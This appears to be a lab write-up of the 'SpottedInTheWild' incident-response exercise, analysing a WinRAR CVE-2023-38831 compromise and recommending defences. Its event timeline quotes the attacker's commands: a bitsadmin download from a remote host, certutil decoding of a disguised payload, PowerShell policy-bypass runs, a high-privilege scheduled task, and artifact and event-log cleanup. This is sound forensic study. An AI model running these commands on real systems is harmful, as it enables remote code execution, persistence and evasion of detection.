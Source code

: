# Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

### Identifying the malicious file

Inside the C:\Users\administartor\downloads folder, we can see evidence of Telegram being used. The WinRaR archive file that the FinTrust IT team reported is inside this telegram folder.
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/communication_software_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/suspicouis_fille_sc.png)
<br><br>
Reviewing the WinRaR archive file, we can see a file called "sans sec401.pdf" and a folder with the same name. Inside that folder, there is another file called "sans sec401.pdf.cmd"
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content1.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content2.png)
<br><br>

### CVE-2023-38831 Detail:
This activity of the WinRAR archive is in line with CVE-2023-38831. 

RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831

After extracting the malicious .cmd file, it was run through dynamic analysis to review its actions. It attempted to use bitsadmin to download from "172.18.35.10:8000." Once the file was downloaded and decoded, it launched multiple PowerShell scripts and created a scheduled task to elevate its privileges.
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/dynamic_analysis_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/powershell_activity.png)
<br><br>

The run.ps1 script was still on the host, so we pulled and decoded the file. The script's goal was to run reconnaissance and identify hosts online inside the network. 

<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/run_script_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/Decoded_run_script_sc.png)
<br><br>

The results of the activity were saved to C:\Users\administartor\appdata\temp\BL4356.txt
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/stored_data.png)
<br><br>

A part of the PowerShell activity was the modification of event logs. It is unclear how exactly the modification was done, except that it was run by  "C:\Windows\Temp\Eventlog.ps1"
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/win_powershell_log.png)
<br><br>
## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled task  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Deleted the scheduled task  \whoisthebaba
<pre>
del c:\Windows\system32\Tasks\whoisthebaba
</pre>
9. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
10. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>


## Recommendations:

In this given scenario, I would recommend that FinTrust Bank consider the following security improvements:

### Remove PowerShell and Command Prompt access for users who do not need to utilize its functionality for their job.

Priority: High

PowerShell and Command Prompt are powerful tools native to the Windows environment. Bad actors can use these tools to perform activities that will not raise any red flags. Consider removing access to these tools for users who do not need them. This will hamper attackers' capabilities, cause harm, or perform reconnaissance on the system, forcing them to use different, noisier tactics. 

### Remove local administrator rights where applicable and practice the principle of least privilege.

Priority: High

The principle of least privilege is the practice of limiting an account's rights to only the permissions needed to perform its function. Removing the local administrator account when applicable would restrict any abnormal behavior. This means that if a host is compromised, the actions the attacker can perform are more limited.


### Verify all software is using the newest release when applicable.

Priority: High

Maintaining up-to-date software on assets is critical to prevent the execution of known vulnerabilities. Ensure that a proper software management program is used to ensure your host's software uses the latest, and most secure version.
